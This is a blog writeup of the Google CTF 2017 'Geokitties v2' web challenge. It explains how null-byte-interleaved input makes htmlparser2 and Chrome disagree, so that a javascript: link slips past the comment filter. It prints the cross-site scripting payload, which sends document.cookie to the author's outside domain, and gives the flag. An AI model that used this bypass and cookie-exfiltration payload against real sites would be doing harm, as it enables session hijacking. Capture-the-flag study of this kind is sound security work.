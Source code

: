 ```yaml
---
title: Google CTF 2017 – Geokitties v2 writeup
author: tyage
type: post
date: 2017-06-25T17:04:34+00:00
url: /archive/p1020.html
wp-syntax-cache-content:
  - |
    a:3:{i:1;s:306:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">\x00&lt;\x00a\x00&gt;\x00&lt;\x00/\x00a\x00&gt;\x00</pre></td></tr></table><p class="theCode" style="display:none;">\x00&lt;\x00a\x00&gt;\x00&lt;\x00/\x00a\x00&gt;\x00</p></div>
    ";i:2;s:300:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">\x00&lt;a \x00&gt;\x00&lt;\x00/\x00a\x00&gt;\x00</pre></td></tr></table><p class="theCode" style="display:none;">\x00&lt;a \x00&gt;\x00&lt;\x00/\x00a\x00&gt;\x00</p></div>
    ";i:3;s:486:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">'\x00&lt;a \x00' + &quot;&lt;a href='javascript:location.href=`//tyage.net/`+document.cookie'&gt;&quot;.split('').join('\x00') + '&lt;/a&gt;'</pre></td></tr></table><p class="theCode" style="display:none;">'\x00&lt;a \x00' + &quot;&lt;a href='javascript:location.href=`//tyage.net/`+document.cookie'&gt;&quot;.split('').join('\x00') + '&lt;/a&gt;'</p></div>
    ";}
categories:
  - CTF

---
```

<h2>Overview</h2>
<p>Problem page:<br />
<a href="https://geokittiesv2.web.ctfcompetition.com/">https://geokittiesv2.web.ctfcompetition.com/</a></p>
<p>Copy of source code:<br />
<a href="https://gist.github.com/tyage/cac08c8e17b90b840fb22cb434cff127">https://gist.github.com/tyage/cac08c8e17b90b840fb22cb434cff127</a></p>
<p>It receives comment, then admin checks it and clicks a link.</p>
<p>The comment is validated by using htmlparser2.</p>
<p>Allowed tags are: <code><i>p, a, b, img, br, i</i></code><br />
Invalid attributes: <code><i>on(.*)=</i></code> and <code><i>href=javascript:...</i></code></p>
<h2>Solution</h2>
<p>What we should do is find the differences in parsing between Google Chrome and htmlparser2.</p>
<p>After some time, I realize that when input is utf-16 string, Chrome parses it as utf-16 string but htmlparser2 does not.</p>
<p>For example, the html below is parsed as html element <code><i>\x00a\x00</i></code> in htmlparser2.</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">\x00&lt;\x00a\x00&gt;\x00&lt;\x00/\x00a\x00&gt;\x00</pre></td></tr></table></div>

<p><code><i>&lt;\x00a\x00&gt;</i></code> is not a valid tag, so we should create a valid html link like below.</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">\x00&lt;a \x00&gt;\x00&lt;\x00/\x00a\x00&gt;\x00</pre></td></tr></table></div>

<p>Now, htmlparser2 recognize <code><i>a</i></code> html tag but chrome does not recognize it as html element.</p>
<p>So we can construct an valid html <code><i>&lt;a href=javascript:...</i></code>.</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">'\x00&lt;a \x00' + &quot;&lt;a href='javascript:location.href=`//tyage.net/`+document.cookie'&gt;&quot;.split('').join('\x00') + '&lt;/a&gt;'</pre></td></tr></table></div>

<p>Finally, admin gives us a flag: <code><i>CTF{i_HoPe_YoU_fOunD_tHe_IntEndeD_SolUTioN_tHis_Time}</i></code></p>
